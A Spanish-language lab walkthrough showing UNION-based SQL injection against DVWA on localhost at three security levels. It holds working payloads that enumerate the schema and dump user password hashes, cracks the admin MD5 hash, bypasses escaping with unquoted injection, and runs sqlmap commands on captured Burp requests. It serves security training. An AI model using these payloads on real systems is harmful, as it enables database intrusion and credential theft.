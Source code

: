 # SQLi Union

### Bajo <a href="#sqlibasiclow" id="sqlibasiclow"></a>

La primera prueba que podemos realizar para ver si una página es vulnerable a SQLi es realizar el ataque de "Codo comillas" o "Croqueta -1", es decir, si tenemos la siguiente URL:

[`http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#`](http://localhost/vulnerabilities/sqli/?id=1\&Submit=Submit)

Si observamos dicha URL, vemos que tiene el parámetro id y si introducimos una comilla, nos queda de la siguiente forma:

```
http://localhost/vulnerabilities/sqli/?id=1'&Submit=Submit#
```

produciendo un error que nos da una pista de que ese parámetro puede ser vulnerable.

![Error sintaxis](<../.gitbook/assets/2 (7).png>)

Esto se debe a que la sentencia SQL que tenía que tener la siguiente forma:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id'
```

nos queda así, haciendo una mala formación de la sentencia y dando error en su ejecución:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id''
```

Ahora que sabemos que la consulta puede ser vulnerable a SQLi, vamos a comenzar a obtener información de ella.

Lo primero que vamos a probar es a recuperar todos los datos que nos pueda devolver la sentencia, por lo que vamos a introducir la siguiente inyección:

```sql
1' or 0=0#
```

Como observamos, lo que estamos haciendo es pasar a la variable $id del código SQL un 1 con su cierre de comillas para que nos devuelva el resultado con dicho id o que nos devuelva cualquier valor que haga que 0 es igual a 0, haciendo que nos devuelva toda la tabla. Finalizamos con una almohadilla para comentar el resto de la sentencia SQL que se concatena al final y de esta manera no darnos el error de que hay comillas de más.

A continuación, lo que nos interesa saber es la cantidad de campos que devuelve la sentencia SQL, por lo que vamos a ir ordenando los campos hasta que nos dé error en la ordenación y entonces sabremos cuántos campos tenemos.

```sql
1' order by 1#
```

![](<../.gitbook/assets/4 (8).png>)

Podemos observar que la columna 3 nos da error, por lo que sabemos que la sentencia SQL tiene 2 columnas.

![](../.gitbook/assets/5.png)

Conociendo las columnas de las que disponemos, vamos a comprobar dónde se imprime cada columna para sacar la información.

```sql
1' union select all 1,2#
```

![](../.gitbook/assets/6.png)

Ahora sabemos que el campo 1 se imprime en el nombre y el dos en el apellido.

Ya que tenemos los diferentes sitios de impresión de los campos, vamos a sacar información interesante. Para empezar, iremos con la versión de MySQL, la cual nos dará información para comprobar si existe alguna vulnerabilidad o exploit conocidos.

```sql
1' union select all version(),2#
```

![](../.gitbook/assets/7.png)

Luego no estaría mal obtener qué usuario tiene en la base de datos, porque si nos encontramos con la suerte de que es root, nos permitirá acceder a toda la información de las diferentes bases de datos.

```sql
1' union select all user(),2#
```

![](<../.gitbook/assets/8 (1).png>)

Y por supuesto, necesitamos saber cuál es el nombre de nuestra base de datos para poder realizar las siguientes consultas y sacar la información jugosa.

```sql
1' union select all database(),2#
```

![](../.gitbook/assets/9.png)

Para poder continuar con nuestro ataque, necesitamos saber las tablas que tiene nuestra base de datos y las columnas de dichas tablas. Esta información se almacena en la tabla _information\_schema_ desde la versión 5.0.2 de MySQL.

Así que comenzamos obteniendo todas las tablas que tiene el servidor de MySQL:

```sql
1' union select null, table_name from information_schema.tables#
```

![](<../.gitbook/assets/10 (1).png>)

Pero tenemos un problema, que aquí nos muestra no solo las tablas de nuestra base de datos sino de todas a las que tenemos acceso, por lo que vamos a acotar un poco más la sentencia para no volvernos locos buscando entre todas las tablas:

```sql
1' union select null, table_name from information_schema.tables WHERE table_schema='dvwa'#
```

![](../.gitbook/assets/11.png)

Ahora que tenemos las tablas, vamos a buscar la información de la tabla que más nos interesa a todos, que al final es la de usuarios, para ver si podemos acceder a sus contraseñas.

```sql
1' union select null, column_name from information_schema.columns WHERE table_name='users'#
```

![](<../.gitbook/assets/12 (1).png>)

Ahora que ya tenemos toda la información necesaria, solo nos queda recolectarla:

```sql
1' union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users#
```

![](../.gitbook/assets/13.png)

Ahora que tenemos los usuarios y los hash, solo nos queda identificar el hash correspondiente y realizar su crackeo. Como observamos que es un MD5, podemos usar la web de HashKiller y obtenemos su contraseña original, que en el caso de admin es "password".

![](../.gitbook/assets/14.png)

### Medio

En el nivel medio nos encontramos con un select en vez de un input. Podríamos editar el código con el inspector de elementos del navegador y modificar el value del select y realizar la petición, pero es bastante engorroso. Por lo que, en este caso, nos ayudaremos de Burp. No hay que olvidarse de configurar el proxy y empezar a trabajar con él.

Realizamos la primera petición y nos encontramos en Burp lo siguiente. Abajo del todo de la petición, vemos los parámetros que se están enviando por POST, en este caso, que son id y Submit. Como en el ejercicio anterior, nos interesa el id.

![Burp interceptor](<../.gitbook/assets/1 (13).png>)

Lo primero que tenemos que probar de nuevo es el ataque de "Codo comilla", quedando la petición de la siguiente manera.

![](<../.gitbook/assets/2 (1).png>)

Pero en este caso, el error que obtenemos es diferente y, como vemos, tenemos una barra de escape (\\) delante de nuestra comilla. Esto es debido a que el código está usando la función [mysqli\_real\_escape\_string()](https://www.php.net/manual/es/mysqli.real-escape-string.php), que "escapa los caracteres especiales de una cadena para usarla en una sentencia SQL, tomando en cuenta el conjunto de caracteres actual de la conexión".

![](<../.gitbook/assets/3 (15).png>)

Por lo que al usar comillas en el ataque no nos funcionará, así que vamos a probar a realizar el primer ataque de SQLi pero sin las comillas a ver qué sucede.

![](<../.gitbook/assets/4 (7).png>)

![](<../.gitbook/assets/5 (6).png>)

Como observamos, el ataque funciona. Ahora solo tendríamos que ir repitiendo los ataques que hemos visto en el anterior nivel, pero sin las comillas para evitar la función [mysqli\_real\_escape\_string](http://php.net/manual/es/mysqli.real-escape-string.php)

Ahora que ya sabemos cómo hacer nuestros primeros ataques de SQLi, vamos a proceder a conocer una gran herramienta para estos casos, que es [SQLMap](https://sqlmap.org/).

Volvemos a realizar la petición sin ninguna modificación y la paramos con Burp. En vez de editar la petición, vamos a guardarla. Para ello, hacemos clic secundario -> Save Item.

![](<../.gitbook/assets/6 (2).png>)

Guardamos el archivo en la ruta que queramos para utilizarlo a continuación con SQLMap. Para utilizar el archivo guardado anteriormente, el cual nos almacena toda la petición, por lo que nos ahorramos tener que especificar todos los parámetros a mano. Lanzamos el siguiente comando:

```bash
python sqlmap.py -r /home/goldrak/pentest/mediumsql
```

Y siguiendo las diferentes opciones que nos dice SQLMap, acabamos obteniendo 3 tipos de inyecciones diferentes.

![](<../.gitbook/assets/7 (2).png>)

### Alto

Como podemos ver en el último nivel, el input se nos abre en una nueva página y el resultado en otra. En este caso, cuando realizamos el ataque de "Codo comilla", nos genera un error que no nos dice qué caso es, como en el nivel bajo o medio. Por lo que tendríamos que empezar a probar las combinaciones anteriores y, si no, ampliar con el resto de las técnicas que nos enseñan en [OWASP](https://www.owasp.org/index.php/Testing\_for\_SQL\_Injection\_\(OTG-INPVAL-005\)).

![](<../.gitbook/assets/1 (3).png>)

![](<../.gitbook/assets/2 (9).png>)

Este caso es igual que el primero, por lo que no vamos a repetir todos los comandos. En su lugar, vamos a ver cómo realizar el ataque en un punto y recuperar la información con SQLMap.

![](<../.gitbook/assets/3 (9).png>)

Lo primero que vamos a hacer es proceder, como en el nivel medio, a capturar la información con Burp y guardarla en un archivo. Una vez que lo tenemos, solo tenemos que volver a lanzar SQLMap como en el ejemplo anterior, pero agregando el parametro `--second-url` donde definimos donde tiene que buscar la información de retorno.

```
python sqlmap.py -r /home/goldrak/pentest/highsql --second-url="http://localhost/vulnerabilities/sqli/"
```

![](<../.gitbook/assets/4 (3).png>)

En resumen, para identificar y explotar vulnerabilidades de inyección SQL en diferentes niveles de seguridad, debes familiarizarte con las técnicas básicas de inyección SQL y las herramientas como Burp Suite y SQLMap. Estas herramientas y técnicas te permitirán realizar ataques más sofisticados y adaptarte a diferentes escenarios de seguridad. Recuerda siempre utilizar estas habilidades de manera responsable y ética y solo en entornos controlados o con permiso explícito del propietario del sistema.
